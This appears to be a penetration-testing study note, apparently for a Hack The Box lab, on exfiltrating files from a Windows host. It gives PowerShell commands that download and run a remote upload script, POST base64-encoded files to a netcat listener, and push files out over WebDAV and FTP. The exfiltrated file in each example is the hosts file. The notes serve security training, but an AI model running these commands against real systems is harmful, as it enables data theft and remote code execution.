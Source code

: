 - upload using [PSUpload.ps1](https://github.com/juliourena/plaintext/blob/master/Powershell/PSUpload.ps1)
 
```powershell
PS C:\htb> IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')
PS C:\htb> Invoke-FileUpload -Uri http://<ip>:8000/upload -File C:\Windows\System32\drivers\etc\hosts

[+] File Uploaded:  C:\Windows\System32\drivers\etc\hosts
[+] FileHash:  5E7241D66FD77E9E8EA866B6278B2373
```

- Netcat

```powershell
PS C:\htb> $b64 = [System.convert]::ToBase64String((Get-Content -Path 'C:\Windows\System32\drivers\etc\hosts' -Encoding Byte))
PS C:\htb> Invoke-WebRequest -Uri http://192.168.49.128:8000/ -Method POST -Body $b64
```

```shell
Sauuron@htb[/htb]$ nc -lvnp 8000
```


##  <span style='color:lightgreen'> SMB over HTTP </span>

-  WebDav.WebDAV
    tries to connect through SMB if there'snt it looks for HTTP .
- wsgidav, cheroot

```shell
sudo pip install wsgidav cheroot
```

```shell
sudo wsgidav --host=0.0.0.0 --port=80 --root=/tmp --auth=anonymous 
```

```powershell
dir  \\192.168.127.134\DavWWWRoot
```


##  <span style='color:lightgreen'> FTP Upload </span>

```shell
sudo python3 -m pyftpdlib --port 21 --write
```

```powershell
PS C:\htb> (New-Object Net.WebClient).UploadFile('ftp://192.168.49.128/ftp-hosts', 'C:\Windows\System32\drivers\etc\hosts')
```


```powershell
C:\htb> echo open 192.168.49.128 > ftpcommand.txt
C:\htb> echo USER anonymous >> ftpcommand.txt
C:\htb> echo binary >> ftpcommand.txt
C:\htb> echo PUT c:\windows\system32\drivers\etc\hosts >> ftpcommand.txt
C:\htb> echo bye >> ftpcommand.txt
C:\htb> ftp -v -n -s:ftpcommand.txt
ftp> open 192.168.49.128

Log in with USER and PASS first.


ftp> USER anonymous
ftp> PUT c:\windows\system32\drivers\etc\hosts
ftp> bye
```